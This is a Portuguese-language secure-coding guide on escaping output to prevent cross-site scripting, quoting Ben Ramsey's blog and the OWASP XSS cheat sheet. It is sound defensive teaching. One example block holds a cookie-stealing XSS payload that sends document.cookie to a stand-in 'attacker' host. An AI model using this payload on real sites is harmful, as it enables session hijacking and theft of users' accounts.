 # Escape as Saídas

### Explicação de um Parágrafo

HTML e outras linguagens da Web combinam conteúdo com código executável - um único parágrafo HTML pode conter uma representação visual de dados junto com instruções de execução de JavaScript. Ao renderizar HTML ou retornar dados da API, o que acreditamos ser um conteúdo puro pode realmente incorporar código JavaScript que será interpretado e executado pelo navegador. Isso acontece, por exemplo, quando renderizamos conteúdo que foi inserido por um invasor em um banco de dados - por exemplo `<div><script>//malicious code</script></div>`. Isso pode ser mitigado instruindo o navegador a tratar qualquer parte de dados não confiáveis ​​apenas como conteúdo e nunca interpretá-los - essa técnica é chamada de escape. Muitas bibliotecas npm e mecanismos de templates HTML fornecem recursos de escape (example: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Não só o conteúdo HTML deve ser escapado, mas também CSS e JavaScript

### Exemplo de código: não coloque dados não confiáveis ​​no seu HTML

```javascript
<script>...NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI...</script>   direto em um script

 <!--...NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI...-->             dentro de um comentário HTML

 <div ...NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI...=test />       em um nome de atributo

 <NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI... href="/test" />   no nome de uma tag

 <style>...NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI...</style>   direto no CSS

```

### Exemplo de código - Conteúdo mal-intencionado que pode ser injetado em um banco de dados

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>window.location='http://attacker/?cookie='+document.cookie</script>
</div>
```

<br/><br/>

### Citação de Blog: "Quando não queremos que os caracteres sejam interpretados"

Do Blog [benramsey.com](https://benramsey.com/articles/escape-output/)

> Os dados podem deixar sua aplicação na forma de HTML enviado para um navegador da Web, SQL enviado para um banco de dados, XML enviado para um leitor de RSS, WML enviado para um dispositivo sem fio, etc. As possibilidades são ilimitadas. Cada um deles tem seu próprio conjunto de caracteres especiais que são interpretados de maneira diferente do resto do texto simples recebido. Às vezes queremos enviar esses caracteres especiais para que eles sejam interpretados (tags HTML enviadas para um navegador da Web, por exemplo), enquanto outras vezes (no caso de entrada de usuários ou alguma outra fonte), não queremos que os caracteres para ser interpretado, então precisamos escapar eles.

> Escaping também é conhecido como codificação. Em suma, é o processo de representar dados de maneira que não sejam executados ou interpretados. Por exemplo, o HTML renderizará o texto a seguir em um navegador da Web como texto em negrito, porque as marcações <strong> têm um significado especial:
> <strong>Isso é um texto em negrito.</strong>
> Mas, suponha que eu queira renderizar as tags no navegador e evitar sua interpretação. Então, eu preciso escapar os colchetes, que têm um significado especial em HTML. A seguir ilustra-se o HTML com escape:

&lt;strong&gt;Isso é um texto em negrito.&lt;/strong&gt;

<br/><br/>

### Citação de Blog: "OWASP recomenda usar uma biblioteca de codificação focada em segurança"

Do blog OWASP [Folha de Dicas de Prevenção de XSS (Cross Site Scripting)](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "Escrever esses codificadores não é tremendamente difícil, mas existem algumas armadilhas ocultas. Por exemplo, você pode se sentir tentado a usar alguns dos atalhos de escape, como "\" em JavaScript. No entanto, esses valores são perigosos e podem ser mal interpretados pelos analisadores aninhados no navegador. Você também pode esquecer de escapar do caracter de escape, que os atacantes podem usar para neutralizar suas tentativas de segurança.**OWASP recomenda o uso de uma biblioteca de codificação focada em segurança para garantir que essas regras sejam implementadas corretamente**."

<br/><br/>

### Citação de Blog: "Você DEVE usar a sintaxe de escape para a parte do HTML"

Do blog OWASP [Folha de Dicas de Prevenção de XSS (Cross Site Scripting)](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "Mas a codificação de entidade HTML não funciona se você estiver colocando dados não confiáveis ​​dentro de uma tag <script> em qualquer lugar, ou um atributo do manipulador de eventos, como onmouseover ou dentro de CSS, ou em uma URL. Portanto, mesmo se você usar um método de codificação de entidade HTML em todos os lugares, provavelmente ainda estará vulnerável ao XSS. Você DEVE usar a sintaxe de escape para a parte do documento HTML na qual você está colocando dados não confiáveis."
